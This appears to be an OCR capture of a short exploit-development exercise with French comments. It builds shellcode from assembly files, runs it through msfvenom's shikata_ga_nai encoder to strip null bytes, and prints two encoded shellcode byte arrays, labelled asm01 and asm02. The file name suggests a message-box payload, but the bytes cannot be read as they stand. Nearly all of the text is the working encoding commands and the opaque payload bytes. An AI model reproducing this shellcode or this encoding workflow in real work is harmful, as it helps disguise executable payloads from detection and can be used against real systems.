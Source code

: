 ./create_shellcode.sh asm01 > messagebox.bin
// On fait en sorte d'obtenir dans messagebox.bin le shellcode en "\x68..." avec des NullBytes
cat messagebox.bin | msfvenom -p - -a x86 --platform linux -e x86/shikata_ga_nai -fc -b '\x00'

// l'option -b va nous permettre de retirer les NullBytes

//On obtient pour asm01 :

unsigned char buf[] = 
"\xdb\xcd\xd9\x74\x24\xf4\x5a\x2b\xc9\xbd\xbb\x9d\x53\xd8"
"\xb1\x0d\x31\x6a\x18\x03\x6a\x18\x83\xc2\xbf\x7f\xa6\x84"
"\xc7\x1d\x71\x69\x4f\xd2\xb0\xcd\xd7\x22\x83\xb1\x5f\x73"
"\xd3\x15\xe7\x43\x23\xfa\x6f\xc6\x21\x5e\xf7\x36\x96\x02"
"\x7f\x07\xe6\xe6\x07\x57\x36\x4b\x8f\xa7\x06\x2f\x17\xab"
"\x02\x93\x9f\x13\xfb\x21";

//asm02 : 

unsigned char buf[] = 
"\xbb\x50\x73\x52\xed\xd9\xcd\xd9\x74\x24\xf4\x58\x33\xc9"
"\xb1\x23\x31\x58\x13\x03\x58\x13\x83\xe8\xac\x91\xa7\xb1"
"\x34\x34\x70\x16\xbc\x88\xb4\xfa\x44\xd9\x84\x5e\xcc\x29"
"\xd5\x02\x54\x7a\x25\xe7\xdc\x18\x27\x4b\x64\xed\x96\x2f"
"\xec\x3d\xe9\x93\x74\x0e\x39\x70\xfc\x5e\x09\xd4\x84\xfc"
"\x50\xb8\x0c\x31\x93\x1c\x94\x50\xe3\xc0\x1c\xa3\x37\xa5"
"\xa4\xf3\x0f\x09\x2c\x96\x0e\xed\xb4\x66\xe4\x51\x3c\xb7"
"\x36\x36\xc4\x87\x06\x9a\x4c\xd8\x56\x7e\xd4\x7b\xf3\x22"
"\x5c\x44\xcb\x86\xe4\xd6\x13\x6b\x6c\x27\x55\xcf\xf4\x77"
"\xa5\xb3\x7c\x48\xf5\x17\x04\x98\xc5\xfb\x8c\xba\x47\x58"
"\x14\x0b\xb8\x3c\x9c\x5b\x88\xe0\x24\xac\xd8\x44\xac\xfc"
"\x28\x29\x34\x9e\x2c\x8d\xbc\x58\x9d\x27";

//asm03



